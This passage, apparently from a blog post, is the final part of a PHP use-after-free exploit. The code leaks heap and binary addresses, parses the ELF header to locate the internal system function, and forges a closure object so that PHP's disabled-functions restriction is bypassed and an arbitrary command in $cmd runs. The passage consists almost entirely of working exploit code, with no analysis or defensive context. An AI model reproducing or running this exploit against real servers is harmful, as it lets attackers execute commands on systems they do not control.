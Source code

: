 ```php
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
```
![](https://img-blog.csdnimg.cn/20201009183651506.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
